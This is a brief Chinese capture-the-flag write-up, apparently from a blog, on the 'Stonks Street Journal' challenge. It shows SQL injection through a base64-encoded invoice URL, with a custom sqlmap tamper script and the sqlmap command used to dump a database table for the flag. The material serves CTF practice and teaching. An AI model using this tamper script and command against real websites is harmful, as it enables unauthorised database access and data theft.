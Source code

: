 ```yaml
---
title: Stonks Street Journal
categories:
- wp
feature_text: |
  Stonks Street Journal


---
```






<!-- more -->

### 2021.12.2 

### Stonks Street Journal

test!

在网站成功注册后可以查看 `invoice`

查看时发现URL末尾有一串看起来像base64编码的字符串

``http://ssj.rumble.host/legacy_invoice_system/Umljay0yMDIxLTExLTI5`

解码后得到`USERNAME-YEAR-MONTH-DAY`

在username后加上`'`，发生SQL报错

```
syntax error at or near "2021"
LINE 1: ...riber WHERE username='jumaoo1'' AND signup_date='2021-11-27...
                                                             ^
```

输入的字符串似乎被拆分成了username和signup date然后被传递到SQL查询中，没有过滤

使用一个自定义SQLMap篡改脚本，利用脚本把payload附加到signup date后面，然后对字符串base64编码，在传递到自定义注入点`GET /legacy_invoice_system/*`

脚本：

```
import base64
from lib.core.enums import PRIORITY

# Define which is the order of application of tamper scripts against the payload
__priority__ = PRIORITY.NORMAL   //记住就行（？）

def tamper(payload, **kwargs):    //kwargs就是字典中的key+value
    retVal = base64.b64encode(('jumaoo1-2021-11-27' + payload).encode()).decode()
    
    return retVal
```

塞进SQLmap里执行：

`sqlmap -r invoice.req --tamper tamper.py --threads 10 -T news_article --dump`

- -r：抓包
- --tamper：脚本
- --threads：多线程
- -T：表名

得到flag
